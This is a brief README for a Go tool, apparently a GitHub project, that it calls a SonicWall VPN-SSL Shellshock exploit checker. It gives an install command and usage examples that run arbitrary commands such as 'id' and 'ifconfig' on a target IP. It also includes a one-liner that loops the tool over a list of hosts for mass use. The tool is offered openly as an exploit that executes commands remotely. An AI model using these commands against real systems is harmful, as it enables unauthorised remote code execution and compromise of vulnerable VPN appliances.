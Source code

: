 # gocheckshock
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs ./main -i ; done
```
### Simple command - Default -c echo
```
▶ ./main -i x.x.x.x
```
### With commands
```
▶ ./main -i x.x.x.x -c id
▶ ./main -i x.x.x.x -c 'id && ifconfig'
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/goshock/blob/main/goshock.png" width="40%"></p>
